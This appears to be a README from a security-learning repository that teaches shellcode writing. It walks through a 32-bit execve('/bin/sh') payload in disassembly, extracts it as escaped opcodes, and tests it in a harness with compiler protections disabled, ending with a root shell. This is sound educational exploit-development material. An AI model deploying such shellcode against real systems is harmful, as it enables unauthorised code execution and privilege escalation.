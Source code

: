 # Shellcode

- [Tutorial to write a simple shellcode (FR)](http://www.bases-hacking.org/afficher-shell.html)
- [Shellcodes Database](http://shell-storm.org/shellcode/)
- [Security related Youtube channel](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w/videos)

## Overview

> In my opinion, the best way to create your own shellcode is to code in assembly. This way you can execute precisely the instructions that you want, and you can use differents tricks to avoid NULL bytes.

- Since you have written your assembly code, you have to compile it to generate an object file from which you will get the operation codes. Some scripts exist to easily extract the op codes from an object file, maybe I will try some and put a link here, or write my own. Meanwhile, I let you handle this part :-)

## From assembly to shellcode

- You have written some awesome assembly code which spawn a shell as root, rm -rf the entire file system and make the coffee in less than 42 bytes ? Good ! Now you need to get the op codes.

/!\ The following example covers a 32-bits ELF architecture, you'll need to adapt the commands to the one of the binary in which you want to use your shellcode.

```console
$ nasm -f elf execve_sh_32bits.asm
$ objdump -d -M intel execve_sh_32bits.o

execve_sh_32bits.o:     file format elf32-i386

Disassembly of section .text:

00000000 <_start>:
   0:	eb 16                	jmp    18 <_str>

00000002 <_shspawn>:
   2:	31 c0                	xor    eax,eax
   4:	5b                   	pop    ebx
   5:	88 43 07             	mov    BYTE PTR [ebx+0x7],al
   8:	89 5b 08             	mov    DWORD PTR [ebx+0x8],ebx
   b:	89 43 0c             	mov    DWORD PTR [ebx+0xc],eax
   e:	b0 0b                	mov    al,0xb
  10:	8d 4b 08             	lea    ecx,[ebx+0x8]
  13:	8d 53 0c             	lea    edx,[ebx+0xc]
  16:	cd 80                	int    0x80

00000018 <_str>:
  18:	e8 e5 ff ff ff       	call   2 <_shspawn>

0000001d <sh_str>:
  1d:	2f                   	das    
  1e:	62 69 6e             	bound  ebp,QWORD PTR [ecx+0x6e]
  21:	2f                   	das    
  22:	73 68                	jae    8c <sh_str+0x6f>
```

- According to the output of `objdump`, you have to get the operation codes from top (`_start` label) to bottom and concatenate them, adding '\x' in front of each one to make them understandable by the machine as hexadecimal syntax instructions.

In this example, the shellcode will begin like this : `\xeb\x16\x31\xc0...` and so on.

## Checking

The last step is to check if your shellcode works as expected. To do so, you can use the 'code_tester.c' file attached in this repository. It will cast the shellcode provided as a function and execute it. Paste your shellcode in it, compile and run ! Do not forget to use the `-fno-stack-protector` and `-z execstack` flags in order to disable the compiler protections.

```console
$ gcc -fno-stack-protector -z execstack -m32 code_checker.c -o code_checker
$ ./code_checker
Lenght: 36
# whoami
root
```